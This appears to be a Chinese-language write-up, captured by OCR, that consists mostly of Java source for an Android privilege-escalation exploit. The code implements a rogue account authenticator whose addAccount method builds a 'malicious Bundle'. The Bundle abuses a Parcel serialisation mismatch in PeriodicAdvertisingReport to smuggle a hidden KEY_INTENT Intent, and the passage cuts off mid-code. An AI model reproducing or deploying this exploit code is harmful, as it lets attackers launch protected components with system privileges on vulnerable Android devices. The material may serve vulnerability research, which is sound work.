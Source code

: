 

实现 AuthenticatorService



```
public class AuthenticatorService extends Service {
    @Nullable
    @Override
    public IBinder onBind(Intent intent) {
        MyAuthenticator authenticator = new MyAuthenticator(this);
        return authenticator.getIBinder();
    }
}
```



实现 Authenticator，addAccount 方法中构建恶意 Bundle



```
public class MyAuthenticator extends AbstractAccountAuthenticator {
    static final String TAG = "MyAuthenticator";

    private Context m_context = null;

    public MyAuthenticator(Context context) {
        super(context);
        m_context = context;
    }

    @Override
    public Bundle editProperties(AccountAuthenticatorResponse response, String accountType) {
        return null;
    }

    @Override
    public Bundle addAccount(AccountAuthenticatorResponse response, String accountType, String authTokenType, String[] requiredFeatures, Bundle options) throws NetworkErrorException {
        Log.v(TAG, "addAccount");

        Bundle evilBundle = new Bundle();
        Parcel bndlData = Parcel.obtain();
        Parcel pcelData = Parcel.obtain();

        // Manipulate the raw data of bundle Parcel
        // Now we replace this right Parcel data to evil Parcel data
        pcelData.writeInt(2); // number of elements in ArrayMap
        /*****************************************/
        // mismatched object
        pcelData.writeString("mismatch");
        pcelData.writeInt(4); // VAL_PACELABLE
        pcelData.writeString("android.bluetooth.le.PeriodicAdvertisingReport"); // name of Class Loader
        pcelData.writeInt(1);//syncHandle
        pcelData.writeInt(1);//txPower
        pcelData.writeInt(1);//rssi
        pcelData.writeInt(1);//dataStatus
        pcelData.writeInt(1);// flag for data
        pcelData.writeInt(0x144); //length of KEY_INTENT:evilIntent
        // Evil object hide in PeriodicAdvertisingReport.mData
        pcelData.writeString(AccountManager.KEY_INTENT);
        pcelData.writeInt(4);
        pcelData.writeString("android.content.Intent");// name of Class Loader
        pcelData.writeString(Intent.ACTION_RUN); // Intent Action
        Uri.writeToParcel(pcelData, null); // Uri is null
```